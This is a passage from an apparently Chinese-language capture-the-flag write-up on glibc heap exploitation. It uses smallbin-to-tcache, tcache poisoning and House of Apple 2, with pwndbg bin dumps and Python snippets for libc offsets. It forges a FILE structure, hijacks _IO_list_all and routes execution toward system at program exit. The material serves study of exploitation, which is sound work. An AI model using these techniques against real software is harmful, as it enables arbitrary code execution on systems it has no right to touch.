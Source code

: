 虽然 FD 链表和 BK 链表完全对不上，但是 malloc 在从 smallbin 取区块的过程中，都是以 bk 进行迭代的。我们接下来调用 `malloc(0x80)` ，就可以触发 smallbin to tcache 的过程：

```python
add(2, b'a') # trigger smallbin-to-tcache process
free()
```

此时各个 bin 状态如下：

```pwndbg
tcachebins
0x50 [  1]: 0x61618d6c42b0 ◂— 0x0
0x90 [  3]: 0x61618d6c42d0 —▸ 0x61618d6c4310 —▸ 0x61618d6c42f0 ◂— 0x0
fastbins
empty
unsortedbin
all [corrupted]
FD: 0x61618d6c4380 —▸ 0x7f82b3e19ce0 (main_arena+96) ◂— 0x61618d6c4380
BK: 0x61618d6c4380 —▸ 0x7f82b3e19ce1 (main_arena+97) ◂— 0xf0000061618d6c43
smallbins
empty
largebins
empty
```

### tcache poisoning & House of Apple2   

由于可以进行溢出，我们已经可以进行 tcache poisoning 了，拥有一次任意写 0x90 字节的原语。接下来就可以通过各种方法将任意写扩大成为控制流劫持，这里我们就使用 House of Apple 2 进行攻击。关于这个手法，推荐参考 [pwn.college 的 IOFILE 章节](https://pwn.college/software-exploitation/file-struct-exploits)。

注意到，0x90 字节小于一个完整的 `_IO_FILE_plus` 结构体大小。因此，如果直接尝试修改标准流的 FILE 结构体的话，是无法做到又改到 flag 又改到 vtable 指针的。

所以我们可以先在堆上伪造一个 `_IO_FILE_plus` 结构体，然后劫持 `_IO_list_all` 到我们的 fake FILE 结构体。我劫持的 vtable 函数是 `__overflow` ，这样会在程序退出时触发攻击。（`exit -> ... -> _IO_flush_all_lockp ->_IO_overflow`）

首先调试拿到一些偏移：

```python
wide_data_off = 0xa0 # wide data field in _IO_FILE
vtable_off = 0xd8 # vtable field in _IO_FILE
wide_data_vtable_off = 0xe0 # vtable field in wide_data FILE structure

_IO_wfile_overflow_ptr = libc_base+0x2160d8 # _IO_wfile_overflow address
__overflow_off = 0x18 # overflow field offset in vtable
do_alloc_off = 0x68 # do_alloc field offset in wide_data vtable

_IO_list_all = libc_base+0x21a680
system = libc_base+0x50d60
```

然后开始进行攻击。

首先，溢出修改目前正位于 `tcache[0x90]` 最前面的堆块，将其 size 改小，fd 修改成该堆块+0x70 的位置。这里把 size 改小是为了之后使用完该堆块将其释放时，可以把该堆块放入另外的 tcache bin。而之所以 fd 是加 0x70，是因为这样我们在写入该堆块的时候，可以顺便设置位于 0x70 处（0x70~0x78）的 fd 指针，通过这种方式完成第二次 tcache poisoning。（这里说是 poisoning 其实不太准确，因为这里本来就没有 fd 指针，是一个完全的 fake chunk）
